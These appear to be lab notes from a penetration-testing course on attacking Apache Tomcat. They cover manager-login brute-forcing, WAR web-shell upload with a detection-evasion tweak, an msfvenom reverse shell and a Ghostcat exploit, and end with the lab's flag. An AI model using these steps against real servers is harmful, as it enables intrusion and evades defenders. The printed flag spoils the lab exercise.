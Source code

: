 # Attacking Tomcat

If we can access the /manager or /host-manager endpoints, we can likely achieve remote code execution on the Tomcat server :

## Tomcat Manager - Login Brute Force

### Metasploit

use auxiliary/scanner/http/tomcat_mgr_login 
set VHOST web01.inlanefreight.local
set RPORT 8180
set stop_on_success true
set rhosts 10.129.201.58
run

[+] 10.129.201.58:8180 - Login Successful: tomcat:admin

### Script Python

https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

## Tomcat Manager - WAR File Upload

### Using jsp

http://web01.inlanefreight.local:8180/manager/html

wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
Browse
select the .war file
Deploy

--> This file is uploaded to the manager GUI, after which the /backup application will be added to the table

Browsing to http://web01.inlanefreight.local:8180/backup/cmd.jsp

curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

Cleanup : Undeploy

Evade detections for standard JSP web shells :

Change :
FileOutputStream(f);stream.write(m);o="Uploaded:

To
FileOutputStream(f);stream.write(m);o="uPlOaDeD:


### Using msfvenom

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

nc -lnvp 4443

## CVE-2020-1938 : Ghostcat

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938

All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable.

nmap -sV -p 8009,8080 app-dev.inlanefreight.local
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 



## LAB

IP=10.129.201.58
printf "%s\t%s\n\n" "$IP" "app-dev.inlanefreight.local web01.inlanefreight.local" | sudo tee -a /etc/hosts

sudo msfconsole -q
use auxiliary/scanner/http/tomcat_mgr_login 
set VHOST web01.inlanefreight.local
set RPORT 8180
set stop_on_success true
set rhosts 10.129.201.58
run


[+] 10.129.201.58:8180 - Login Successful: tomcat:root

http://web01.inlanefreight.local:8180/manager/html
tomcat
root

wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp

Browse
select the .war file
Deploy

--> This file is uploaded to the manager GUI, after which the /backup application will be added to the table

Browsing to http://web01.inlanefreight.local:8180/backup/cmd.jsp

find .-name *tomcat_flag* 2> /dev/null

http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=find%20%2F%20-name%20tomcat_flag.txt

http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=find%20.-name%20%2Atomcat_flag%2A%202%3E%20%2Fdev%2Fnull

find / -type f -perm -04000 -ls
find / -type f -name tomcat -ls

http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=ls+-l+%2Fopt%2Ftomcat%2Fapache-tomcat-10.0.10%2Fwebapps

http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=cat+%2Fopt%2Ftomcat%2Fapache-tomcat-10.0.10%2Fwebapps%2Ftomcat_flag.txt

t0mcat_rc3_ftw!
